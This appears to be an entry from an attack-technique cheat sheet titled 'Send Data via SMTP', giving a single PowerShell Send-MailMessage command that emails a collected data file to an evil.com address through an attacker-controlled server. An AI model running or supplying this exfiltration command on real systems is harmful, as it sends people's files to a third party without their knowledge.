 # Send Data via SMTP

This command sends a mail attached a collected data file to an attacker's server.

```powershell
Send-MailMessage -From sender@evil.com -To recipient@evil.com -Subject "Hello" -Attachments C:\data.txt -SmtpServer 10.0.0.1
```
